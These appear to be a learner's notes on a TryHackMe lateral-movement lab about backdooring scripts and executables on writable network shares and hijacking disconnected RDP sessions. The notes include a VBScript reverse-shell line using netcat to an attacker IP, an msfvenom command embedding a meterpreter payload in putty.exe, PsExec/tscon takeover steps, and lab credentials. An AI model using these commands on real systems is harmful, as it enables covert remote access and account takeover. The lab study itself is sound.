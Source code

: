 It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

One common scenario consists of *finding a shortcut to a script or executable file hosted on a network share.*
![](Pasted%20image%2020241118170136.png)

The rationale behind this is that the *administrator can maintain an executable on a network share, and users can execute it without copying or installing the application* to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

## Backdooring .vbs Scripts
As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script. This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe {attacker_ip} {1234}", 0, True
```

1. `CreateObject("WScript.Shell")`
	- This is a **VBScript** command that creates an instance of the **WScript.Shell** object.
	- The `WScript.Shell` object allows the execution of system commands and provides access to system-level functions.

2. `.Run "cmd.exe /c ...", 0, True`
	- The `.Run` method executes the command specified in quotes.
	- **`cmd.exe /c`** runs the command specified after it and then terminates the shell.
	- The arguments here:
	    - `"cmd.exe /c ..."`: The command to run.
	    - `0`: Hides the window (runs the process in the background).
	    - `True`: The script waits for the command to finish before continuing.

3. `"copy /Y \\10.10.28.6\myshare\nc64.exe %tmp%"`
	- This part uses the `copy` command to copy a file from a network share to the local system.
	- **`\\10.10.28.6\myshare\nc64.exe`**:
	    - This is the path to the **Netcat executable** (`nc64.exe`), hosted on a network share (`myshare`) on the machine with IP `10.10.28.6`.
	- **`%tmp%`**:
	    - This is an environment variable in Windows pointing to the user's temporary directory (e.g., `C:\Users\<User>\AppData\Local\Temp`).
	- **`/Y`**:
	    - This switch forces the copy operation to overwrite the file if it already exists, without prompting the user.

 4. `& %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234`
	- The `&` symbol is used to chain commands in Windows Command Prompt.
	- **`%tmp%\nc64.exe`**:
	    - This runs the copied Netcat executable from the temporary folder.
	- **`-e cmd.exe`**:
	    - The `-e` switch in Netcat specifies a program to execute after establishing a connection. Here, it's launching `cmd.exe`, effectively creating a shell session.
	- **`<attacker_ip> 1234`**:
	    - This specifies the target IP address (`<attacker_ip>`) and port (`1234`) to which Netcat will connect. The attacker’s IP address should replace `<attacker_ip>`.

## Backdooring .exe Files
If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:
```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can *replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit*.

## RDP hijacking
When an administrator uses *Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely*. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's *run a cmd.exe as administrator*:
	![](Pasted%20image%2020241118173354.png)
From there, run `PsExec64.exe`(available at `C:\tools\`):
```shell-session
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:
```shell-session
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

According to the command output above, if we were currently connected via RDP using the *administrator* user, our *SESSIONNAME* would be `rdp-tcp#6`. We can also see that a user named *luke* has left a session open with id `3`. 

**Note:**
	Any session with a **Disc** state has been left open by the user and isn't being used at the moment. *While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.*

To connect to a session, we will use `tscon.exe` and specify the *session ID* we will be taking over, as well as our current *SESSIONNAME*. Following the previous example, to takeover luke's session if we were connected as the administrator user, we'd use the following command:
```shell-session
tscon 3 /dest:rdp-tcp#6
```

In simple terms, the command states that the graphical session `3` owned by luke, should be connected with the RDP session `rdp-tcp#6`, owned by the administrator user. As a result, we'll resume luke's RDP session and connect to it immediately.

**Note:** 
	Windows Server 2019 won't allow you to connect to another user's session without knowing its password.


## Example
To complete this exercise, you will need to connect to THMJMP2 using a new set of credentials obtained from [http://distributor.za.tryhackme.com/creds_t2](http://distributor.za.tryhackme.com/creds_t2). Once you have your credentials, connect to THMJMP2 via RDP:

`xfreerdp /v:thmjmp2.za.tryhackme.com /u:{YOUR_USER} /p:{YOUR_PASSWORD}`

These credentials will grant you administrative access to THMJMP2. For this task, we'll work on hijacking an RDP session. If you are interested in trying backdooring exe or other files, you can find some exercises about this in the [Windows Local Persistence](https://tryhackme.com/jr/windowslocalpersistence) room.

Credentials:
- **Username**: t2_eric.harding 
- **Password**: Kegq4384
	![](Pasted%20image%2020241118180858.png)
	- run `PsExec64.exe -s cmd.exe`  in cmd (run as administrator)
	![](Pasted%20image%2020241118181507.png)
	- `query user` sessions
	![](Pasted%20image%2020241118181659.png)
	- run `tscon 4 /dest:rdp-tcp#3` command to hijack *t1_toby.beck* session :)